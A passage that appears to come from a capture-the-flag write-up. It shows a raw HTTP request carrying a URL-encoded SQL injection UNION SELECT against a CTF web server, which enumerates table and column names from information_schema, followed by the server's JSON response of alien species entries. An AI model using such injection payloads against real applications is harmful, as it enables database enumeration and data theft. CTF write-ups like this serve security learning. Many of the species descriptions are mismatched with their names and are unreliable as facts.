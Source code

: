 GET /query?search=amazonis_planitia%20UNION%20SELECT%20table_name%2C%20column_name%20FROM%20information_schema.columns%20WHERE%20table_schema%20%3D%20%27alien_code%27&{}&_=1584147989793 HTTP/1.1
Host: web.ctf.b01lers.com:1001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json; charset=utf-8
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://web.ctf.b01lers.com:1001/

HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 4356
Server: Werkzeug/1.0.0 Python/3.7.3
Date: Sun, 15 Mar 2020 13:46:43 GMT

[["Advent","Humanoid"],["Aras",""],["Arburian Pelarota","Functionally extinct due to the destruction of their home planet Arburia, they are bulky yellow aliens that can curl into a ball, much like apillbug, and are very hard to damage in ball form, and they use this to crush enemies either by bouncing around or rolling over them"],["Baalols",""],["Bailies","Machine race that conquered Earth"],["Beings of the Extra Terrestrial origin which is Adversary of human race",""],["Brain Dogs",""],["Brikar",""],["Briori",""],["Cthulhi",""],["Daxamites","Humanoid"],["Deep Ones","Fish-like humanoids who serve and worship the Great Old Ones known as Father Dagon and Mother Hydra."],["Defiance","band of many different races"],["Delvians","Humanoid - Similar to humans in appearance, but evolved from plants. Blue, bald, sensitive to sunlight, procreate through air-borne spores."],["Demiurg",""],["Denobulans","Humanoid"],["Dom Kavash",""],["Doog","Reptiloid with canine features. Extremely dull-witted."],["Dremer",""],["Elgyem","Maintain Halo Rings, but are not officially part of the Covenant. Large, pink, squid like creatures. No real threat to Humanity other than maintaining the Halo Rings, whicharea threat to humanity."],["Eywa",""],["Festival","An evil race of bugs that live in the Firebug hive inside of the Lavarynth."],["Gashlai","Gaseous humanoids, they can either exist in gaseous mediums (such as gas pipes in Victorian Households) or inside the corpses of others."],["G'keks",""],["Gnaar",""],["Gowachin",""],["Grendarl","Intelligent bipedal species known for their scavenging, hoarding, and trading. Though not a violently aggressive species they are very fond of human blood."],["Gretchin",""],["Grogs","Humanoid"],["Hoix",""],["Hooloovoo","Ape-like reptilian carnivores"],["Hoon",""],["Jem'Hadar",""],["Jotoki","Their skin is dull yellow, with light brown markings and have beady eyes. Only male Joozians have been shown."],["Kafers","Humanoid"],["Kig-yar",""],["Knnn",""],["Lance Corporal Dororo",""],["Leerans",""],["Liir","Gelatinous, shapeshifting creatures, they are carnivorous in nature, more specifically preying on elderly humans. They are fond of high levels of heat, but are weak to and deathly afraid of water."],["Little Guys",""],["Macra","Saber Tyrant"],["Merseians","millipede-like"],["Micronoids",""],["Mon Calamari",""],["Moroks",""],["Mutons",""],["Nemet","Humanoid, completely grey."],["Nicassar",""],["Ood",""],["Orandoans","Humanoid, Ascended to a higher plain of existence in non-corporial form"],["Overlords",""],["P'lod",""],["Polymorph",""],["The Prin","Humanoid; formidable ancient race of mysterious origin; reside primarily on Phase World, center of the Three Galaxies; possess phase powers, enabling manipulation of physical and dimensional space; generally indifferent to anything that does not pose a threat to themselves or the cosmos as a whole."],["Q",""],["Remans",""],["Rodians","Humanoid"],["Sathar",""],["Scrin","Humanoid. Genetically engineered offshoot of humans, harvested from Earth 27,000 years ago. Lower heat resistance than humans, but double the average life expectancy"],["S\u00e9roni","Arachnid, capable of phase-shifting to turn invisible"],["Shevar",""],["Silicoids",""],["Skedar","Sessile, plant-like beings mounted in personal mechanical vehicles (skrodes)"],["Skinnies",""],["Slylandro","Humanoid"],["Snovemdomas",""],["Species",""],["Syreen","Humanoid"],["Tavleks",""],["Aaamazzarite","City-sized alien spaceship. Nickname given by Cassie Sullivan. They created a series of waves to wipe out humanity and invade Earth."],["Titanide",""],["Traskans","Compare with the earlierflat catsfromRobert A. Heinlein's<a href=/wiki/The_Rolling_Stones_(novel) title=The Rolling Stones (novel)>The Rolling Stones</a>."],["Vorcarian bloodtracker",""],["Xel'Naga",""],["Yanme'e","Slug-like parasites. They need a host to see, walk, and communicate, and are the main antagonists of the Animorphs series, intent on enslaving other species."],["Yridian","Alternative name for the humanoidIridonianrace whose most distinctive feature is the array of small horns on top of their heads.  Their home planet isIridonia, though they have established many colonies on planets throughout the galaxy.<a href=#cite_note-Wizards-1>[1]</a>The most well known member isDarth Maul."],["code","id"],["code","code"]]
```

Columns are:
```